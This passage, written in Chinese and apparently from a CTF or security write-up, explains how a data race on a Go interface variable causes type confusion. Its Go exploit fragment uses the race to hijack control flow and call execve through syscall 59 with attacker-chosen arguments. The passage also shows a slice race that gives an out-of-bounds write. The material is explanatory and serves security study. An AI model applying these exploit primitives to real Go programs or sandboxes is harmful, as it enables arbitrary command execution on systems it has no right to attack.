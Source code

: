 ```go
	var args [2]uint64
	args[0] = address(&cmd)
	var envs [2]uint64
	envs[0] = address(&display)
	var con confuse
	adr_execve := address(test)
	adr_cmd := address(&cmd)
	type_safe := &safe{i: &adr_execve}
	type_unsafe := &unsafe{}
	con = type_safe
	go func() {
		for {
			i++
			con = type_unsafe
			func() {
				if i < 0 {
					fmt.Println("maplesss")
				}
				return
			}()
			con = type_safe
		}
	}()

	for {
		con.x(uint64(59), adr_cmd, address(&args), address(&envs))
	}
}
```
这一段代码最重要的核心在于
```go
go1 :
	con = type_unsafe
	con = type_safe
	
go2 :
	con.x(uint64(59), adr_cmd, address(&args), address(&envs))
```
上述两个goroutine，go1在不断交替给`con`赋值不同结构，赋值过程是一串指令，相当于con的更新过程，对应着修改底层所对应的interface结构里面的字段。go2却在不断调用con定义的方法，这两个过程是并发进行。这里面就会出现一个问题。

con所指向的interface里面最重要的是实际保存结构的值和实际结构所定义的方法。那么就可能出现一个过程，现在数据值变化了，保存对应方法的函数列表指针还没来的及更新，那可能导致context和对应的方法不一样。上面就可能出现用着safe的数据，调用确实unsafe的方法。如果unsafe里面字段是一个func类型，那么这样就相当于伪造出一个指向任意地址的函数指针，也就是我们常说一种类型混淆漏洞。

go里面是默认编译是忽略aslr的，当你编译一个go的普通二进制，在其符号表里面是可以看到默认是有syscall调用代码片段，并且我们能不用考虑aslr，直接用它。

在早期go里面，定义的全局变量，编译完成之后是放在text里面的，即是有执行权限的。这非常有趣。

上面我们通过竞争劫持pc，然后用基础类型来控制传参，go普通函数调用和c是一样的，所以用基础类型能完成一切，而方法调用是一种语法糖衣，函数的一个参数是方法所对应的结构本身。

安装上面的思路slice的赋值也不是原子操作，所以也可能存在问题：
```go
short := make([]int, 1)
long := make([]int, 2)
confuse := short

go1 :
	confuse = long
	confuse = short
go2 :
	confuse[1] = 0xfffffff 
```
在更新confuse的时候底层数组的指向变了，而`cap`的值还没有来得及更新。就可以oob写了
